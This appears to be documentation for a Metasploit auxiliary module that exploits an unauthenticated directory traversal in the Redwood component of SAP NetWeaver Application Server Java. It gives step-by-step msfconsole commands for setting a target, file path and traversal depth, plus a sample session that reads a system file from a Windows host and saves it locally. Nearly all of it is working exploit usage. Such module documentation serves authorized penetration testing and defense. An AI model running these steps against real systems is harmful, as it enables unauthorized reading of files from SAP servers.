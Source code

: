 # Description
This is a module for exploitation an anon directory traversal vulnerability at SAP NetWeaver Application Server Java in Redwood module. The vulnerability active exploited from Chines hackers in the wild in 2017.


# Verification Steps
```
Start msfconsole
use auxiliary/scanner/sap/sap_redwood_traversal
set RHOSTS [IP]
set FILEPATH [file_on_remote_server]
set DEPTH [number]
run
```

## Scenarios
Tested on Windows 2008 with SAP NetWeaver AS Java 7.52
```
msf5 > use auxiliary/scanner/sap/sap_redwood_traversal 
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set rhosts 192.168.2.164
rhosts => 192.168.2.164
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set DEPTH 25
DEPTH => 25
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > run

[+] 192.168.2.164:50000 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[+] File saved in: [local_path_in_your_machine]
```
